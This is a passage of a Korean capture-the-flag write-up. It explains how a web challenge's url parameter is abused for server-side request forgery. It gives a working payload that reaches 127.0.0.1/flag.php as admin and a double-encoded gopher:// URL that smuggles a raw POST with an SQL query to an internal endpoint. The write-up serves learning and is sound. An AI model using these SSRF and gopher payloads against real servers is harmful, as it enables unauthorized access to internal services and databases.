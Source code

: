 ```php
        $result = mysqli_fetch_array($result);
        
        echo var_dump($result);
    }
}
```

소스코드를 살펴보면 해당 경로에 `127.0.0.1` 을 IP로 갖는 클라이언트가 `GET` 메소드로 접근하였을 때 파라미터 중 `role` 이 존재하고 그 값이 `admin`이면  DB에 접근해서 데이터를 전달해주는 것을 확인할 수 있다.

이때 `127.0.0.1` 은 자기 자신을 의미하기 때문에 `url` 파라미터를 통해서 접속하여 플래그의 두번째 파트를 얻을 수 있다.

`?url=http://127.0.0.1:80/flag.php?role=admin`

![스크린샷 2023-01-28 오후 7.57.22.png](img%20e0061c49e68b4dbc8047ca5b2c52fabc/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2023-01-28_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_7.57.22.png)

### 세번째 파트

세번째 파트는 데이터베이스에 존재한다고 한다.

`flag.php` 를 살펴보면 `POST` 메소드를 통해서 `role=admin` 과 `sql=<sql query>` 형식으로 값을 전달하여 mysql db에 쿼리를 보내는 것이 가능합니다.

이 때 두번째 파트를 `flag.flag` 에서 가져왔기 때문에 `SELECT * FROM flag.flag` 등의 쿼리를 전달하여 플래그를 휙득할 수 있다는 것을 추측할 수 있습니다.

POST 요청을 보내기 위해서는 curl에서 지원하는 gopher 프로토콜을 이용해야합니다. 해당 프로토콜의 사용법은 다음과 같습니다

`gopher://IP:PORT/_<packet data>`

gopher 프로토콜은 IP:PORT에 접속하여 주어진 URL의 `path` 에서 첫번째 바이트를 무시한 후 이후에 오는 값을 packet의 raw data로 사용하여 전달합니다.

이러한 점을 이용하여 `POST` 요청을 보내는 패킷을 생성하여 보내는 방식으로 풀이가 가능합니다.

하지만 유의할 점이 존재합니다. printable하지 않은 문자와 공백 등에 대해서는 URL encoding을 적용하여 전송해야하며 `apache` 서버 접속 시에 URL decode가 이루어지는데 최초 브라우저 접속 시 1번, curl 사용 시 1번 총 2번 decode가 일어나기 때문에 URL encoding을 두 번 적용한 문자열을 통해 요청을 보내야합니다.

```
http://ssuctf.kr:8889/?url=gopher://localhost:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250aHost:%2520localhost%250d%250aContent-Length:%252051%250d%250aContent-Type:%2520application/x-www-form-urlencoded%250d%250aConnection:%2520close%250d%250a%250d%250arole=admin%2526sql=SELECT%2520%252a%2520FROM%2520flag%252eflag%2520WHERE%2520id%3C%3E2
```

![스크린샷 2023-01-31 오후 1.21.32.png](img%20e0061c49e68b4dbc8047ca5b2c52fabc/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2023-01-31_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE_1.21.32.png)
